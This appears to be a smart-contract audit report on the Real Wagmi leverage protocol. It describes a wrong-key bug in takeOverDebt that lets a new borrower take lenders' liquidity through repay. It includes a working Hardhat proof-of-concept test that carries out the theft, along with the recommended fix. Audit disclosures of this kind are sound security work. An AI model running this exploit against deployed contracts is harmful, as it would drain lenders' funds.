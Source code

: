 Dry Plum Loris

high

# `takeOverDebt._addKeysAndLoansInfo` function mistakenly updates newBorrowing with the old borrowingKey, enabling attacker to steal loans liquidity
## Summary
The `_addKeysAndLoansInfo` function contains a critical vulnerability that could allow a new borrower (the one who takes over the debt) to exploit the system by bypassing the `repay._restoreLiquidity` function and steal the entire borrowed liquidity along with the bonuses, ultimately resulting in a loss of funds for the lenders.

## Vulnerability Detail
The root cause of the vulnerability is that the `_addKeysAndLoansInfo` function mistakenly uses the `borrowingKey` instead of the corresponding `newBorrowingKey` when updating the `loansInfo` and `tokenIdLoansKeys` data structures for the new borrower. Due to this oversight, the new borrower's state is not properly updated in the system, causing misalignment between the global states of `borrowingsInfo`, `loansInfo`, etc.

```solidity
// File: wagmi-leverage/contracts/LiquidityBorrowingManager.sol
395:    function takeOverDebt(bytes32 borrowingKey, uint256 collateralAmt) external {
        ...
431:        (
432:            uint256 feesDebt,
433:            bytes32 newBorrowingKey,
434:            BorrowingInfo storage newBorrowing
435:        ) = _initOrUpdateBorrowing(
436:                oldBorrowing.saleToken,
437:                oldBorrowing.holdToken,
438:                accLoanRatePerSeconds
439:            );
440:        // Add the new borrowing key and old loans to the newBorrowing
441:        _addKeysAndLoansInfo(newBorrowing.borrowedAmount > 0, borrowingKey, oldLoans); // <= FOUND: borrowingKey was used instead of newBorrowingKey
        ...
453:    }
```
Assuming Alice calls `takeOverDebt` to obtain Bob's under-collateral borrow position. Due to the error at line 441, after the call, only `borrowingsInfo` is properly updated with Alice's borrowing key while `loansInfo`, `userBorrowingKeys` and `tokenIdToBorrowingKeys` stored incorrect data derived from Bob's key. This means that any subsequent calls that rely on Alice's borrowing key to read `loansInfo` would result in empty information.

## Impact
The impact of this vulnerability is severe as it allows a new borrower to manipulate the system and exploit it for their gain. The key points of impact are as follows:

**Loss of Funds:** 
Assuming Alice has successfully taken over the borrow position and proceeds to call `repay` on that position. As previously stated, a read to loansInfo at line 638 would return empty loans array (provided POC would prove this). Since loans is empty, `_restoreLiquidity` would be skipped so that the entire `borrowing.holdToken` transfered from the `VAULT_ADDRESS` (Line 632) will not be used to restore the liquidity of the lender's NFTs and send everything to Alice instead (Line 669). This causes a severe consequence that the `holdToken` which should be used to restore the loaner's liquidity and pay for the owned borrow fees were lost to Alice. 
```solidity
// File: wagmi-leverage/contracts/LiquidityBorrowingManager.sol
532:    function repay(
        ...
632:            Vault(VAULT_ADDRESS).transferToken(
633:                borrowing.holdToken,
634:                address(this),
635:                borrowing.borrowedAmount + liquidationBonus
636:            );
637:            // Restore liquidity using the borrowed amount and pay a daily rate fee
638:            LoanInfo[] memory loans = loansInfo[params.borrowingKey];// <= FOUND
        ...
650:            _restoreLiquidity(
651:                RestoreLiquidityParams({
652:                    zeroForSaleToken: zeroForSaleToken,
653:                    fee: params.internalSwapPoolfee,
654:                    slippageBP1000: params.swapSlippageBP1000,
655:                    totalfeesOwed: borrowing.feesOwed,
656:                    totalBorrowedAmount: borrowing.borrowedAmount
657:                }),
658:                params.externalSwap,
659:                loans
660:            );
            ...
669:            _pay(borrowing.holdToken, address(this), msg.sender, holdTokenBalance);
674:    }
```

### POC
```patch
diff --git a/wagmi-leverage/test/WagmiLeverageTests.ts b/wagmi-leverage/test/WagmiLeverageTests.ts
index 689a56c..3b189dc 100644
--- a/wagmi-leverage/test/WagmiLeverageTests.ts
+++ b/wagmi-leverage/test/WagmiLeverageTests.ts
@@ -1150,6 +1150,71 @@ describe("WagmiLeverageTests", () => {
         expect(borrowingsInfo.borrower).to.be.equal(constants.AddressZero);
     });
 
+    it("takeOverDebt & repay steals all borrow liquidity", async () => {
+        snapshot_global.restore();
+        
+        const bobBorrowingsCount = await borrowingManager.getBorrowerDebtsCount(bob.address);
+        const aliceBorrowingsCount = await borrowingManager.getBorrowerDebtsCount(alice.address);
+        // Make sure Alice has no borrow initially
+        expect(aliceBorrowingsCount).to.be.eq(0);
+
+        let bobDebt: LiquidityBorrowingManager.BorrowingInfoExtStructOutput = (
+        await borrowingManager.getBorrowerDebtsInfo(bob.address)
+        )[0];
+        expect(bobDebt.collateralBalance).to.be.gte(0);
+        await time.increase(bobDebt.estimatedLifeTime.toNumber() + 10);
+        bobDebt = (await borrowingManager.getBorrowerDebtsInfo(bob.address))[0];
+        expect(bobDebt.collateralBalance).to.be.lt(0);
+
+        // Alice takes over Bob's borrowing position
+        const cachedBobBorrowingsInfo = await borrowingManager.borrowingsInfo(bobDebt.key);
+        let collateralDebt = bobDebt.collateralBalance.abs().div(COLLATERAL_BALANCE_PRECISION).add(1);
+        await borrowingManager.connect(alice).takeOverDebt(bobDebt.key, collateralDebt.add(5));
+        expect(await borrowingManager.getBorrowerDebtsCount(bob.address)).to.be.equal(bobBorrowingsCount.sub(1));
+        expect(await borrowingManager.getBorrowerDebtsCount(alice.address)).to.be.equal(aliceBorrowingsCount.add(1));
+        const bobBorrowingsInfo = await borrowingManager.borrowingsInfo(bobDebt.key);
+        expect(bobBorrowingsInfo.borrower).to.be.equal(constants.AddressZero);
+        const aliceBorrowKey = ethers.utils.solidityKeccak256(
+            ["address", "address", "address"], 
+            [alice.address, cachedBobBorrowingsInfo.saleToken, cachedBobBorrowingsInfo.holdToken]).toString();
+        const aliceBorrowingsInfo = await borrowingManager.borrowingsInfo(aliceBorrowKey);
+        expect(aliceBorrowingsInfo.borrower).to.be.equal(alice.address);
+        expect(aliceBorrowingsInfo.borrowedAmount).to.be.gte(cachedBobBorrowingsInfo.borrowedAmount);
+        
+        // Error 1: Alice's userBorrowingKeys stores Bob's key
+        // causing getBorrowerDebtsInfo to returns wrong debt info
+        let storedAliceDebt = (await borrowingManager.getBorrowerDebtsInfo(alice.address))[0];
+        console.log("Alice's expected borrowing key:", aliceBorrowKey)
+        console.log("Alice's recorded borrowing key:", storedAliceDebt.key);
+
+        // Error 2: Alice has empty loansInfo
+        const loansInfo: LiquidityManager.LoanInfoStructOutput[] = await borrowingManager.getLoansInfo(aliceBorrowKey);
+        console.log("Alice's loansInfo length:", loansInfo.length);
+
+        // Error 3: Alice steals all borrowed liquidity via repay 
+        // since _restoreLiquidity is skipped due to empty loansInfo
+        const deadline = (await time.latest()) + 60;
+        const swapParams: ApproveSwapAndPay.SwapParamsStruct = {
+            swapTarget: constants.AddressZero,
+            swapAmountInDataIndex: 0,
+            maxGasForCall: 0,
+            swapData: swapData,
+        };
+        let params: LiquidityBorrowingManager.RepayParamsStruct = {
+            isEmergency: false,
+            internalSwapPoolfee: 500,
+            externalSwap: swapParams,
+            borrowingKey: aliceBorrowKey,
+            swapSlippageBP1000: 990, //1%
+        };
+        const aliceBalanceBefore = await getERC20Balance(cachedBobBorrowingsInfo.holdToken, alice.address);
+        await borrowingManager.connect(alice).repay(params, deadline);
+        const aliceBalanceAfter = await getERC20Balance(cachedBobBorrowingsInfo.holdToken, alice.address);
+        expect(aliceBalanceAfter).to.be.approximately(aliceBalanceBefore
+            .add(cachedBobBorrowingsInfo.borrowedAmount)
+            .add(cachedBobBorrowingsInfo.liquidationBonus), 5);
+    });
+
     it("increase the collateral balance should be correct", async () => {
         snapshot_global.restore();
         const key = await borrowingManager.userBorrowingKeys(bob.address, 1);

```

Result:
> ✔ takeOverDebt & repay steals all borrow liquidity
> Alice's expected borrowing key: 0x09d2fdcd4da67a701a842deba011fc2de8068d3aa721f095353b3397862326af
> Alice's recorded borrowing key: 0xa3668144c44aa5a2afe3badb4c4cf7c621fee77a9fd0a93cc1886e6168a89388
> Alice's loansInfo length: 0

The POC result confirms that the wrong Alice borrowing key was used to update `loansInfo` which makes reading back with the right key result in empty `loansInfo`. It also shows that after calling `takeOverDebt` and later `repay`, Alice has successfully stolen an amount of roughly `borrowedAmount` + `liquidationBonus` which are mostly owned by the loan owners as Uniswap v3 NFTs.


## Code Snippet
https://github.com/sherlock-audit/2023-10-real-wagmi/blob/main/wagmi-leverage/contracts/LiquidityBorrowingManager.sol#L441

## Tool used
Vscode + hardhat test

## Recommendation
To address this vulnerability and prevent potential abuse, it is recommended to update the `_addKeysAndLoansInfo` function to use the correct `newBorrowingKey`. The line in question should be modified as follows:

```patch
- _addKeysAndLoansInfo(newBorrowing.borrowedAmount > 0, borrowingKey, oldLoans);
+ _addKeysAndLoansInfo(newBorrowing.borrowedAmount > 0, newBorrowingKey, oldLoans);
```